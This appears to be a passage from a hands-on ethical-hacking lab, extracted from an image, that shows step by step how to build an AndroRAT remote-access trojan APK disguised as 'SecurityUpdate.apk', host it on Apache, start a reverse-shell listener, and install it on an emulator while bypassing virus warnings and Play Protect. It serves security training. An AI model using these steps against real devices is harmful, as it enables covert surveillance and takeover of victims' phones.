 	2. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	3. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	4. Type cd AndroRAT and press Enter to navigate to the AndroRAT repository.
	
	5. Type python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk and press Enter to create an APK file (here, SecurityUpdate.apk).
	• --build: is used for building the APK
	• -i: specifies the local IP address (here, 10.10.1.13)
	• -p: specifies the port number (here, 4444)
	• -o: specifies the output APK file (here, SecurityUpdate.apk)
	6. You can observe that an APK file (SecurityUpdate.apk) is generated at the location /home/attacker/AndroRAT/.
	
	7. Type cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/ and press Enter to copy the SecurityUpdate.apk file to the location share folder.
If the share folder does not exist, then execute the following commands to create a share folder and assign required permissions to it:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	8. Type service apache2 start and press Enter to start an Apache web server.
	
	9. Now, type python3 androRAT.py --shell -i 0.0.0.0 -p 4444 and press Enter to start listening to the victim's machine.
	• --shell: is used for getting the interpreter
	• -i: specifies the IP address for listening (here, 0.0.0.0)
	• -p: specifies the port number (here, 4444)
	10. You can observe that AndroRAT starts waiting for a connection.
	
	11. Click Android to switch to the Android emulator machine.
	12. If the Android machine is non-responsive then, click the Commands icon from the top-left corner of the screen and navigate to Power --> Reset/Reboot machine.
If Reset/Reboot machine pop-up appears, click Yes to proceed.
	
	13. In the Android Emulator GUI, click the Chrome icon on the lower section of the Home Screen to launch the browser
	
	14. In the address bar, type http://10.10.1.13/share and press Enter.
If a Browse faster. Use less data. notification appears, click No thanks.
If a pop up appears, click Allow.
	15. The Index of /share page appears; click SecurityUpdate.apk to download the application package file.
	
	16. If Chrome needs storage access to download files, a pop-up appears; click Continue. If any pop-up appears stating that the file contains a virus, ignore the message and download the file anyway.
In Allow Chrome to access photos, media, and files on your device?, click ALLOW.
	17. In the warning message saying that the File might be harmful, click Download anyway
	18. After the file downloads, File downloaded pop-up appears, click Open.
	
	19. Google Service Framework window appears, click INSTALL button to install the malicious app.
	
	20. After the application is installed successfully, an App installed notification appears; click OPEN.
Blocked by play protect pop-up appears click INSTALL ANYAY
Send app for scanning? pop-up appears, click DON'T SEND
	